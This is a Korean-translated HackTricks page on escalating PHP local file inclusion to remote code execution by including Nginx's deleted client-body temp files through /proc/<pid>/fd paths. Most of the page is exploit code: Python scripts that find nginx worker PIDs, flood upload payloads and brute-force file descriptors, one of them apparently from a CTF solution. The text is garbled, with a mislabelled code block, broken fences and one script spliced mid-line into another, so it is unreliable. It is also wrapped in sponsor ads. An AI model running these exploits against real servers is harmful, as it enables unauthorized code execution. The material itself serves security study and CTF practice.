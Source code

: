 # Nginx 임시 파일을 통한 LFI2RCE

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 **제로**부터 **히어로**까지 AWS 해킹을 배우세요!</summary>

HackTricks를 지원하는 다른 방법:

* **회사가 HackTricks에 광고**되길 원하거나 **PDF로 HackTricks 다운로드**하려면 [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스왜그**](https://peass.creator-spring.com)를 구매하세요
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 당사의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
* **💬 [Discord 그룹](https://discord.gg/hRep4RUj7f)** 또는 [텔레그램 그룹](https://t.me/peass)에 **가입**하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)를 **팔로우**하세요.
* **HackTricks** 및 **HackTricks Cloud** 깃허브 저장소에 PR을 제출하여 **해킹 트릭을 공유**하세요.

</details>

### [WhiteIntel](https://whiteintel.io)

<figure><img src="../../.gitbook/assets/image (1227).png" alt=""><figcaption></figcaption></figure>

[**WhiteIntel**](https://whiteintel.io)은 **다크 웹**을 통해 제공되는 검색 엔진으로, **무료** 기능을 제공하여 회사나 그 고객이 **스틸러 악성 코드**에 의해 **침해**당했는지 확인할 수 있습니다.

WhiteIntel의 주요 목표는 정보를 도난하는 악성 코드로 인한 계정 탈취 및 랜섬웨어 공격을 막는 것입니다.

그들의 웹사이트를 확인하고 **무료**로 엔진을 시험해 볼 수 있습니다:

{% embed url="https://whiteintel.io" %}

***

## 취약한 구성

[**https://bierbaumer.net/security/php-lfi-with-nginx-assistance/**의 예시](https://bierbaumer.net/security/php-lfi-with-nginx-assistance/)

* PHP 코드:

\`\`\`\`h\`

/dev/pts/0 lrwx------ 1 www-data www-data 64 Dec 25 23:56 1 -> /dev/pts/0 lrwx------ 1 www-data www-data 64 Dec 25 23:49 10 -> anon\_inode:\[eventfd] lrwx------ 1 www-data www-data 64 Dec 25 23:49 11 -> socket:\[27587] lrwx------ 1 www-data www-data 64 Dec 25 23:49 12 -> socket:\[27589] lrwx------ 1 www-data www-data 64 Dec 25 23:56 13 -> socket:\[44926] lrwx------ 1 www-data www-data 64 Dec 25 23:57 14 -> socket:\[44927] lrwx------ 1 www-data www-data 64 Dec 25 23:58 15 -> /var/lib/nginx/body/0000001368 (deleted) ... \`\`\` 참고: PHP의 \`include\` 함수는 경로를 \`/var/lib/nginx/body/0000001368 (deleted)\`로 해석하므로 이 예시에서 \`/proc/34/fd/15\`를 직접 포함할 수 없습니다. 이러한 소극적인 제한은 다행히 \`/proc/self/fd/34/../../../34/fd/15\`와 같은 간접 방법으로 우회할 수 있습니다. 이렇게 하면 최종적으로 삭제된 \`/var/lib/nginx/body/0000001368\` 파일의 내용이 실행됩니다. ## 전체 Exploit \`\`\`python #!/usr/bin/env python3 import sys, threading, requests # exploit PHP local file inclusion (LFI) via nginx's client body buffering assistance # see https://bierbaumer.net/security/php-lfi-with-nginx-assistance/ for details URL = f'http://{sys.argv\[1]}:{sys.argv\[2]}/' # find nginx worker processes r = requests.get(URL, params={ 'file': '/proc/cpuinfo' }) cpus = r.text.count('processor') r = requests.get(URL, params={ 'file': '/proc/sys/kernel/pid\_max' }) pid\_max = int(r.text) print(f'\[\*] cpus: {cpus}; pid\_max: {pid\_max}') nginx\_workers = \[] for pid in range(pid\_max): r = requests.get(URL, params={ 'file': f'/proc/{pid}/cmdline' }) if b'nginx: worker process' in r.content: print(f'\[\*] nginx worker found: {pid}') nginx\_workers.append(pid) if len(nginx\_workers) >= cpus: break done = False # upload a big client body to force nginx to create a /var/lib/nginx/body/$X def uploader(): print('\[+] starting uploader') while not done: requests.get(URL, data=' //'
```
requests_session.post(SERVER + "/?action=read&file=/bla", data=(payload + ("a" * (body_size - len(payload)))))
except:
pass
```
```python
def send_payload_worker(requests_session): while True: send_payload(requests_session)

def send_payload_multiprocess(requests_session): # 모든 CPU를 사용하여 Nginx에 페이로드를 요청 본문으로 보냄 for _ in range(multiprocessing.cpu_count()): p = multiprocessing.Process(target=send_payload_worker, args=(requests_session,)) p.start()

def generate_random_path_prefix(nginx_pids): # 이 메서드는 무작위 개수의 ProcFS 경로 구성 요소로 경로를 생성합니다. 생성된 경로는 /proc/<nginx pid 1>/cwd/proc/<nginx pid 2>/root/proc/<nginx pid 3>/root와 같이 보입니다 path = "" component_num = random.randint(0, 10) for _ in range(component_num): pid = random.choice(nginx_pids) if random.randint(0, 1) == 0: path += f"/proc/{pid}/cwd" else: path += f"/proc/{pid}/root" return path

def read_file(requests_session, nginx_pid, fd, nginx_pids): nginx_pid_list = list(nginx_pids) while True: path = generate_random_path_prefix(nginx_pid_list) path += f"/proc/{nginx_pid}/fd/{fd}" try: d = requests_session.get(SERVER + f"/?action=include&file={path}").text except: continue # 플래그는 hxp{} 형식으로 포맷됩니다 if "hxp" in d: print("플래그 발견! ") print(d)

def read_file_worker(requests_session, nginx_pid, nginx_pids): # 루프에서 10에서 45 사이의 Nginx FD를 스캔합니다. 파일과 소켓이 계속 닫히기 때문에 이 범위 내에서 요청 본문 FD가 열리는 것이 매우 일반적합니다 for fd in range(10, 45): thread = threading.Thread(target = read_file, args = (requests_session, nginx_pid, fd, nginx_pids)) thread.start()

def read_file_multiprocess(requests_session, nginx_pids): for nginx_pid in nginx_pids: p = multiprocessing.Process(target=read_file_worker, args=(requests_session, nginx_pid, nginx_pids)) p.start()

if __name__ == "main": print('[DEBUG] 요청 세션 생성 중') requests_session = create_requests_session() print('[DEBUG] Nginx PID 가져오는 중') nginx_pids = get_nginx_pids(requests_session) print(f'[DEBUG] Nginx PID: {nginx_pids}') print('[DEBUG] 페이로드 전송 시작 중') send_payload_multiprocess(requests_session) print('[DEBUG] FD 리더 시작 중') read_file_multiprocess(requests_session, nginx_pids)
```
```

## Labs

* [https://bierbaumer.net/security/php-lfi-with-nginx-assistance/php-lfi-with-nginx-assistance.tar.xz](https://bierbaumer.net/security/php-lfi-with-nginx-assistance/php-lfi-with-nginx-assistance.tar.xz)
* [https://2021.ctf.link/internal/challenge/ed0208cd-f91a-4260-912f-97733e8990fd/](https://2021.ctf.link/internal/challenge/ed0208cd-f91a-4260-912f-97733e8990fd/)
* [https://2021.ctf.link/internal/challenge/a67e2921-e09a-4bfa-8e7e-11c51ac5ee32/](https://2021.ctf.link/internal/challenge/a67e2921-e09a-4bfa-8e7e-11c51ac5ee32/)

## References

* [https://bierbaumer.net/security/php-lfi-with-nginx-assistance/](https://bierbaumer.net/security/php-lfi-with-nginx-assistance/)

### [WhiteIntel](https://whiteintel.io)

<figure><img src="/.gitbook/assets/image (1224).png" alt=""><figcaption></figcaption></figure>

[**WhiteIntel**](https://whiteintel.io) is a **dark-web** fueled search engine that offers **free** functionalities to check if a company or its customers have been **compromised** by **stealer malwares**.

Their primary goal of WhiteIntel is to combat account takeovers and ransomware attacks resulting from information-stealing malware.

You can check their website and try their engine for **free** at:

<div data-gb-custom-block data-tag="embed" data-url='https://whiteintel.io'></div>

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
```

